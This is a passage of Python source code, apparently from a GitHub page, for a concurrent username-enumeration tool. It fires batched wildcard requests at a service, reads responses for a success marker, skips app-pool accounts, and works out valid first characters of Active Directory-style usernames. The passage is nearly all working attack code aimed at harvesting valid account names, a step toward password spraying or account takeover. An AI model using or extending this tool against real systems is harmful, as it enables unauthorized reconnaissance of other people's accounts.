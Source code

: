 ```python
                    
                    self.request_count += 1
                    
                    # Filter app pool accounts
                    if 'appp' in response.text.lower():
                        return False
                    
                    return SUCCESS_INDICATOR in response.text
                    
                except Exception as e:
                    return False
    
    async def test_batch_concurrent(self, usernames, use_wildcard=False):
        """
        CONCURRENT BATCH TESTING
        Test multiple usernames simultaneously
        """
        async def test_wrapper(username):
            """Wrapper for single test with delay"""
            result = await self.test_username_fast(username, use_wildcard)
            await asyncio.sleep(REQUEST_DELAY)
            return username, result
        
        if not usernames:
            return {}
        
        # Run all tests concurrently
        tasks = [test_wrapper(username) for username in usernames]
        results_list = await asyncio.gather(*tasks)
        
        # Convert to dict
        results = {username: is_valid for username, is_valid in results_list}
        return results
    
    async def discover_first_chars_fast(self):
        """
        CONCURRENT FIRST CHARACTER DISCOVERY
        Test all starting characters at once
        """
        print(f"[*] Testing {len(CHARSET)} starting characters concurrently...")
        
        # Test priority chars first (common AD usernames)
        print(f"[*] Testing {len(PRIORITY_CHARS)} priority characters...")
        priority_results = await self.test_batch_concurrent(PRIORITY_CHARS, use_wildcard=True)
        priority_valid = [char for char in PRIORITY_CHARS if priority_results.get(char, False)]
        
        if priority_valid:
            print(f"[+] Priority chars found: {''.join(priority_valid)}")
        
        # Test remaining chars
        remaining_chars = [c for c in CHARSET if c not in PRIORITY_CHARS]
        print(f"[*] Testing {len(remaining_chars)} remaining characters...")
        remaining_results = await self.test_batch_concurrent(remaining_chars, use_wildcard=True)
        remaining_valid = [char for char in remaining_chars if remaining_results.get(char, False)]
        
        if remaining_valid:
            print(f"[+] Additional chars found: {''.join(remaining_valid)}")
        
        valid_chars = priority_valid + remaining_valid
        print(f"[+] Total valid first characters: {''.join(valid_chars)}")
        
        return valid_chars
    
```